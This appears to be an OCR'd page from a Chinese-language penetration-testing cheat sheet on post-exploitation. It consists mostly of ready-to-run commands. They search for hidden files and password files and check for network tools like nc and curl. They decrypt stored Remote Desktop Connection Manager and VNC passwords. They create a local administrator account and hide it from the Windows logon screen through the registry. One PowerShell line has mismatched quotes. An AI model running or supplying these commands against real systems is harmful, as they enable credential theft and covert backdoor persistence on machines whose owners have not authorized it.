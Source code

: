 #### 递归地查找隐藏文件: Windows

```text
dir /A:H /s "c:\program files"
```

#### 文件搜索

```text
# 查询本地db以快速查找文件。在执行locate之前执行updatedb。
locate passwd 

# 显示哪个文件将在当前环境中执行，这取决于$PATH环境变量;
which nc wget curl php perl python netcat tftp telnet ftp

# 以/etc开头递归搜索*.conf文件(不区分大小写);
find /etc -iname *.conf
```

#### 后开发和维护访问

#### 浏览注册蜂巢

```text
hivesh /registry/file
```

#### 解密RDG密码

远程桌面连接管理器的密码可以在加密的同一计算机/帐户上解密:

```text
Copy-Item 'C:\Program Files (x86)\Microsoft\Remote Desktop Connection Manager\RDCMan.exe C:\temp\RDCMan.dll’
Import-Module C:\temp\RDCMan.dll
$EncryptionSettings = New-Object -TypeName RdcMan.EncryptionSettings
[RdcMan.Encryption]::DecryptString($PwdString, $EncryptionSettings)
```

#### 解密VNC密码

```text
wine vncpwdump.exe -k key
```

#### 创建用户并添加本地管理员

```text
net user spotless spotless /add & net localgroup Administrators spotless /add
```

#### 隐藏新创建的本地管理员

```text
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```
